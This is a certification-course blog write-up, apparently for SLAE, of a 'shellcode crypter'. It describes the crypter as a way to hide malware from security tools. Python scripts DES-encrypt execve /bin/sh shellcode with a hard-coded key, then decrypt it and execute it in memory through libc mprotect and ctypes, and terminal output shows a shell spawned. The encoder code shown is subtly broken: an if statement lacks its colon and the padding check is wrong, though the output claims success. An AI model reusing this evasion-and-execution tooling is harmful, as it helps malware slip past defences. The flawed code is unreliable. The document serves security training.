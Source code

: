 **Assignment 7**

Create a shellcode crypter

A crypter is a type of software that can encrypt, obfuscate, and manipulate malware, to make it harder to detect by security programs.
 
For this last SLAE assignment, I’ve created a shellcode crypter using the DES encryption using the pyCrypto library in python
	
pyCrypto library is a collection of both secure hash functions (such as SHA256 and RIPEMD160), and various encryption algorithms (AES, DES, RSA, ElGamal, etc.)

Refer:https://pypi.org/project/pycrypto/

**Methodology**

	>Cryptor 

		DES Encryption
		Refer : https://en.wikipedia.org/wiki/Data_Encryption_Standard
		its a symmetric key encryption mechanism, due to the short keylength (56 bits) , its not very commonly used.

		For Cryptor a execve /bin/sh shell code is used


		Since the DES Encrypiton process ciphertext in a block of 8 , if the length of the shellcode is not a multiple of 8 , x90 is padded
		x90 , NOP doesnt really do anything ie xchg eax, eax , which wont cause a problem in our shellcode

		Crypter schema is achived using a python script which, takes a shellcode (execve /bin/sh) and padd x90 to make the shellcode a multiple of x90 and use pyCrypto library to encrypt the shellcode using DES
		the 8 bit key used is "aaaaaaaa"

			toor@ubuntu:~/Desktop/slae/Assignments/7$ cat encoder.py                                                                                             [12/288]
			#!/bin/python

			from Crypto.Cipher import DES
			import socket
			import sys
			import urllib


			shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"  #/bin/sh shellcode
			print(shellcode)

			print(" ")
			print("Length of the shellcode is "+str(len(shellcode)))
			print("Original Shellcode ")

			enc1 = ""

			for i in bytearray(shellcode):
 				enc1+="0x"
 				enc1+= "%02x," %(i & 0xff)

			print("----------------------")
			print(enc1.rstrip(','))

			if ((len(shellcode)/8)==0)                                      #check if padding is needed
 				print("boo no padding is required")
			else:
 				padding = 8 * ((len(shellcode)/8)+1) - len(shellcode)
 				shellcode = shellcode + "\x90"*padding                  #appending x90 to make the shellcode length a multiple of 8
 			print("Padding needed , appended  "+str(padding)+"""  \\x90 bytes""")         

			print(len(shellcode))

			cipher = DES.new("aaaaaaaa")                                    #DES encryption key
			encrypted_data = cipher.encrypt(shellcode)											   	#Encryption process

			enc2 = ""
			output= ""

			for i in bytearray(encrypted_data):
		 		enc2+="0x"
	 	 		enc2+= "%02x," %(i & 0xff)
 		 		output += "\\x"
  		 		output += '%02x'% i

			print("Encrypted Shellcode")
			print("----------------------")
			print(enc2.rstrip(','))																							#printing Encrypted shellcode

			print(output)

			toor@ubuntu:~/Desktop/slae/Assignments/7$



	>Decrypter

		Decrypter takes the DES encrypted shellcode and decrypt the shellcode using the same key(symmetric encryption) and run the shellcode


			toor@ubuntu:~/Desktop/slae/Assignments/7$ cat decoder.py
			#!/bin/python

			from Crypto.Cipher import DES
			import socket
			import sys
			from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
			import os
			
			encrypted_data = "\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a"  
											#DES Encrypted shellcode
			cipher = DES.new("aaaaaaaa")																						#DES decryption key


			shellcode = cipher.decrypt(encrypted_data)                     	#DES Decryption



			libc = CDLL('libc.so.6')																						# Passing control on to the shellcode using libc.so
			#shellcode = shellcode.replace('\\x','').decode('hex')
			sc = c_char_p(shellcode)
			size = len(shellcode)
			addr = c_void_p(libc.valloc(size))
			memmove(addr, sc, size)
			libc.mprotect(addr, size, 0x7)
			run = cast(addr, CFUNCTYPE(c_void_p))
			run()
			toor@ubuntu:~/Desktop/slae/Assignments/7$
			
	Running shellcode in a python script.This is a good read
		http://hacktracking.blogspot.com/2015/05/execute-shellcode-in-python.html


**Practical**

Lets take the execve /bin/sh shellcode and use "aaaaaaaaa" key to encrypt using DES

	toor@ubuntu:~/Desktop/slae/Assignments/7$ python encoder.py
	1▒Ph//shh/bin▒▒▒̀

	Length of the shellcode is 25
	Original Shellcode
	----------------------
	0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80
	Padding needed , appended  7  \x90 bytes
	32
	Encrypted Shellcode
	----------------------
	0x9a,0xa9,0x7d,0x8b,0xc4,0x0f,0x1a,0xca,0xeb,0x74,0xae,0x62,0x66,0x51,0x01,0xdd,0xc2,0x77,0x52,0xc5,0x55,0xb9,0xdf,0xe9,0xb0,0xbe,0xff,0xca,0x98,0x45,0xc1,0x9a
	\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a
	toor@ubuntu:~/Desktop/slae/Assignments/7$


Lets take the encrypted payload and decrypt it using the same DES Key 

	toor@ubuntu:~/Desktop/slae/Assignments/7$ python decoder.py
	$ id
	uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	$


	Works like a charm 


**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
